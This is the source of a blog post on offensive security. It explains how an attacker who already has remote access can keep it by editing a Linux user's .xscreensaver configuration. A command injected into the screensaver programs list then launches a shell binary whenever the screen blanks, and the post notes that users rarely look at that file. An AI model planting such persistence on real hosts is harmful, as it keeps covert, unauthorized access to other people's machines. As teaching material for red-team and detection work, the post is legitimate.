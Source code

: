 ```yaml
---
layout: post
title: Persistent Code Execution via XScreenSaver
date: 2019-03-03
categories:
  - linux
  - security
tags:
  - xscreensaver
  - shell
  - persistence
  - offsec
image: /assets/images/2019-03-03-persistent-code-execution-via-xscreensaver/xscreensaver.png
---
```

After successfully gaining remote access to a host, acquiring some form of persistence is usually on the cards in case of network problems, system reboots etc. There are many ways to do this but one way I discovered recently, I thought was quite discrete in comparison to other methods (editing shell rc files, crontabs etc.).

The method I came across was to modify the configuration file of XScreenSaver, a very common screensaver package for Linux, to execute a shell. [mis]Using XScreenSaver offers a couple of benefits:

* Users will rarely edit this file, meaning there is less chance of the shell being noticed
* The screen is almost guaranteed to blank on a regular basis, resulting in the shell executing

To demonstrate this, I have setup a Ubuntu 18.10 host running XScreenSaver 5.42 and have a remote shell to it.

Identifying XScreenSaver Presence & Configuration
-------------------------------------------------
To determine if XScreenSaver is installed,
The configuration file for XScreenSaver can be found in a user's home directory and is named `.xscreensaver`:

```shell_session
meterpreter > ls -S xscreensaver
Listing: /home/rastating
========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100664/rw-rw-r--  8804  fil   2019-03-07 21:49:13 +0000  .xscreensaver
````

If the configuration file is missing, it does not mean that XScreenSaver is not available, but that the user has not configured their screensaver preferences. In which case, you can create a fresh configuration file and drop it in place.

As there are packages readily available to install it, it is possible to use the system's package manager to verify if it is installed. For example, in Debian / Ubuntu, you can use `dpkg` to verify:

```shell_session
$ dpkg -s xscreensaver | grep -i status
Status: install ok installed
```

If it has been built from source, the presence of the following binaries would also suggest it is installed:

* xscreensaver
* xscreensaver-command
* xscreensaver-demo
* xscreensaver-getimage
* xscreensaver-getimage-file
* xscreensaver-getimage-video
* xscreensaver-gl-helper
* xscreensaver-text

In this case, I had selected a screensaver to use and thus the configuration file existed. Examining the configuration file reveal three key pieces of information:

* The `timeout` value: how long the session must remain inactive before the screensaver is displayed
* The `mode`: whether or not a single screensaver is used, or whether random screensavers are chosen each time
* The `selected` screensaver

As can be seen in the below snippet of the configuration file, the `timeout` value is set to `0:01:00`, meaning the screensaver will run after one minute of inactivity:

```yaml
# XScreenSaver Preferences File
# Written by xscreensaver-demo 5.42 for rastating on Thu Mar  7 21:49:13 2019.
# https://www.jwz.org/xscreensaver/

timeout:        0:01:00
cycle:          0:10:00
lock:           False
lockTimeout:    0:00:00
passwdTimeout:  0:00:30
```

Moving a bit further down the file, we can see the `mode` setting is `one` which indicates that a single screensaver has been selected. We can also see the `selected` setting, which indicates the selected screensaver is the one found at index position `2` of the `programs` array. As the array starts at `0`, this means that in this instance, the `attraction` screensaver has been selected:

```yaml
mode:         one
selected:     2

textMode:     url
textLiteral:  XScreenSaver
textFile:
textProgram:  fortune
textURL:      http://feeds.feedburner.com/ubuntu-news

programs:                                                   \
              maze -root                                  \n\
- GL:         superquadrics -root                         \n\
              attraction -root                            \n\
              blitspin -root                              \n\
              greynetic -root                             \n\
```

Adding a Shell To The Configuration File
----------------------------------------
Looking at the `programs` array of the configuration file, you may have figured out that these strings aren't just the names of the screensavers that are available, but the base commands that will be executed. In XScreenSaver, each screensaver is a separate binary that when executed will display the fullscreen screensaver.

In the configuration previously shown, when the screen blanks, it would shell out the command:

`/usr/lib/xscreensaver/attraction -root`

With this in mind, we can inject a command at the end of the base command in order to launch our shell alongside the screensaver. As I had a shell located in `/home/rastating/.local/share/shell.elf`, I modified the `.xscreensaver` to launch this. The previous snippet of the configuration file now looks like this:

```yaml
mode:         one
selected:     2

textMode:     url
textLiteral:  XScreenSaver
textFile:
textProgram:  fortune
textURL:      http://feeds.feedburner.com/ubuntu-news

programs:                                                   \
              maze -root                                  \n\
- GL:         superquadrics -root                         \n\
              attraction -root |                            \
               (/home/rastating/.local/share/shell.elf&)  \n\
              blitspin -root                              \n\
              greynetic -root                             \n\
```

There are two things to note with this change. The first is that the `\n\` that was at the end of the `attraction` line has been replaced with a single backslash. This indicates that the string is continuing onto a second line. The `\n` is the delimiter, and thus only appears at the end of the full command.

The second thing to note is the use of `|` and `&`, the shell is called in this way to ensure that it is launched alongside the `attraction` binary and that it does not halt execution by forking it into the background.

Once this change is made, XScreenSaver will automatically pick up the change, as per [The Manual](https://www.jwz.org/xscreensaver/man1.html):

> If you change a setting in the .xscreensaver file while xscreensaver is already running, it will notice this, and reload the file. (The file will be reloaded the next time the screen saver needs to take some action, such as blanking or unblanking the screen, or picking a new graphics mode.)

With this change in place, the shell will now be executed alongside the screensaver binary as can be seen in the video below:

<div class="video-container">
  <video class="video-js video" controls preload="auto" poster="{{ site.baseurl }}/assets/images/2019-03-03-persistent-code-execution-via-xscreensaver/xscreensaver-shell.jpg" data-setup="{}">
    <source src="{{ site.baseurl }}/assets/videos/xscreensaver-shell.mp4" type="video/mp4">
    <p class="vjs-no-js">
      To view this video please enable JavaScript, and consider upgrading to a web browser that <a href="https://videojs.com/html5-video-support/">supports HTML5 video</a>
    </p>
  </video>
</div>

